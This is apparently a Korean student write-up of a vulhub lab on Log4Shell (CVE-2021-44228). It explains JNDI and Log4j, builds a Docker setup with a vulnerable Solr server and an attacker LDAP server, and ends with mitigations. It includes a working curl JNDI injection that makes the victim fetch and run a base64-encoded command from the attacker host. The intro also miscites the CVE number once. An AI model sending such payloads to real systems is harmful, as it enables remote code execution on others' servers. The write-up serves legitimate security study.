# 개요
이번 Write up 에서는 [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub) Repository vulhub을 기반으로한 한국어 번역 및 컨텐츠 추가에대한 과제로 내가 선택한 취약점인 log4shell이라고 불리는 log4j의 취약점인 `CVE-2021-33228`에 대해 작업을 진행했습니다.

**Contributors**
- [김지민 (@Antimony02)](https://github.com/Jimin0605)

<br>

| 정보             | 설명                                             |
| ----------------| ------------------------------------------------ |
| **이름**         | Log4shell(CVE-2021-44228)                |
| **심각도**       | 심각                                            |
| **CVSS**        | 10.0                                              |
| **CVSS String** | 10.0 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H   |


<br>

### Log4shell이란
#### JNDI
우선 JNDI(Java Naming and Directory Interface)는 클라이언트나 서버에서 제공하는 데이터 및 객체를 lookup하기 위한 자바 API다. 쉽게말해 연결하고 싶은 데이터베이스의 DB Pool을 미리 Naming 시켜주는 방법중에 하나이다. WAS의 데이터베이스 정보에 JNDI를 설정해 놓으면 웹 애플리케이션은 JNDI만 호출하면 간단하게 데이터를 전달할 수 있다.

따라서 LDAP서버에서 JNDI를 이용해 디렉토리 서비스에 연결하고 객체를 가져와 보내기위해 사용할 것이다.

<br>

#### Log4j
Log4j는 로그에 대한 라이브러리이다. 그냥 기본적인 log기능으로 대체하면 되지 않나 싶지만. Log4j는 로그를 포맷팅, 필터링이 가능하고, 어플리케이션의 파일로 이를 기억하는것 이외에도 정말 유용한 기능들이 있기에 개발자 에게는 매우 좋은 라이브러리이다. 

<br>

#### Log4shell
Log4shell의 취약점은 log4j의 lookup기능중 JNDI looup기능을 지원으로 발생한 취약점이다.log4j가 로깅을 하는 부분에서 `$(jndi:ldap:[LDAP_IP])`와같은 메세지를 남기면 해당 서버에 접속해 객체를 참조하게되는데, 즉 해당 서버에 명령어를 입력하는 객체를 참조하게 될 경우 RCE취약점이 발생되므로 굉장히 위험한 공격이다. 추가로 더해서 로깅을 하는 부분은 로그인, 사용자이름, 와이파이이름 등 사용하기 나름대로 정말 다양해 사용자이름을 바꾸던가, 와이파이이름을 바꾸는 것만으로도 취약점 공격이 가능하다는 점에서 굉장히 파급력이 크다.

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/1.png)

<br>

log4j는 2015년 Oracle에 따르면 Java는 130억개의 기기에서 구동중이다. 이렇게 많이 사용하는 만큼 애플, 텐센트, 아마존, 테슬라, 클라우드플레어, 스팀, 마인크래프트, 구글, github 등 정말 많은 대기업들이 이 Log4shell취약점에 노출되어있었다. 

결론적으로 log4shell은 당시 해당 취약점이 있는 log4j를 사용중인 회사는 굉장히 많고, 공격하기도 굉장히 쉽고, 효과도 엄청난 Zero-day 취약점이라는것이다.

<br>

### 실습환경 구축
실습환경으로는 docker로 구축을 할것이다.

|Attacker       |Victim     |
|:-------------:|:---------:|
|Ubuntu:latest  |solr:8.11.0|

docker hub에서 2개의 image들을 pull한다.
```bash
$ docker pull vulhub/solr:8.11.0
$ docker pull antimony02/log4shell_jndi
```

여기서 vulhub/solr:8.11.0은 log4shell 취약점이 있는 Victim서버이고, antimony02/log4shell_jndi는 악성 Class 파일을 다운로드 할 수 있도록 설계된 LDAP서버이다. 이것을 이용해 log4shell 공격으로 solr서버를 공격할 것이다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/2.png)

docker pull이 완료된 이후에 `docekr compose up -d`로 컨테이너를 실행시켜준다. 컨테이너를 끌때는 `docker compose down`을 하면 된다. 실행을 완료한 후에 Attacker 컨테이너의 log를 확인해 LDAP서버도 제대로 열렸는지와 해당 서버의 IP를 확인한다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/3.png)
```bash
$ docker ps # 컨테이너 ID확인
$ docker logs ID
```

여기까지 오류없이 잘 작동이 됐으면 환경 구축은 완료했다.

<br>

### Log4shell 공격
log4shell취약점은 로깅을 하는데에서 발생하므로 어떤부분에서 로깅이 발생하는지 살펴봐야한다. 간단히 말해서 `${jndi:dns://${sys:java.version}.example.com}` 이 JNDI쿼리를 트리거할 수 있는 부분에 이 페이로드를 넣어야한다.

vulnhub에서는 `/solr/admin/cores?action=${jndi:dns://${sys:java.version}.example.com}`

이경로를 통해 페이로드를 삽입하겠다.

```bash
curl 'http://127.0.0.1:8983/solr/admin/cores?action=$\{jndi:ldap://{LDAP_IP}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=\}'
```
이 LDAP경로는 `dG91Y2ggL3RtcC9oYWNrZWQ=`뒤쪽 base64로 인코딩된 문자열을 base64로 디코딩한 뒤 RCE를 날린다.

예시로 `touch /tmp/hacked`를 base64로 인코딩해 넣어줘 파일이 제대로 생성이 되는지 확인하겠다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/4.png)

요청은 제대로 간것을 확인했다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/5.png)

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/6.png)

```
2023-10-31 22:20:45 2023-10-31 13:20:44.903 INFO  (qtp860481979-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={asdf=${jndi:ldap://192.168.80.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ%3D}} status=0 QTime=0
```
두 서버모두 요청이 제대로 잘 전달이 된것을 확인했고, 정말 `/tmp/hacked` 가 만들어졌는지 확인해보겠다. 확인하는 방법으로는 터미널에서 `docker exec -it victim_comtainer_ID /bin/bash`를 통해 직접 접속해 확인할 수 있다. 나는 docker desktop에서 확인해봤다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/7.png)

잘 생성이 되었으므로 Log4shell 취약점 공격에 성공했다.

<br>

### 대응방안
해당 취약점을 막기위해서는 log4shell 취약점이 있는 버전의 log4j를 사용을 하지 않는것이다.

**Log4shell 영향을 받는 버전**
- Log4 2.0-beta9 ~ 2.14.1 이하 버전
- Log4j 2.0-beta9 ~ 2.15.0 이하 버전
- Log4j 1.x 버전

만약 어쩔 수 없는 이유로 해당 버전들을 사용할 경우에는 log4j의 JNDI LookUp을 비활성화 하고, 공격자가 알 수 없는 형태의 파라미터로 로그를 남기고, log4j를 사용하는 시스템에서 LDAP등 JNDI앤드 포인트와 통신이 불가능 할경우에 해당 취약점을 막을 수 있다.

<br>

## Reference
[CVE-2021-44228]log4j 실습 - [https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1](https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1)

Youtube_노마드코더 - [https://www.youtube.com/watch?v=kwS3twdVsko&t=281s](https://www.youtube.com/watch?v=kwS3twdVsko&t=281s)

vulbuh - [https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

 [https://github.com/black9/Log4shell_JNDIExploit](https://github.com/black9/Log4shell_JNDIExploit)
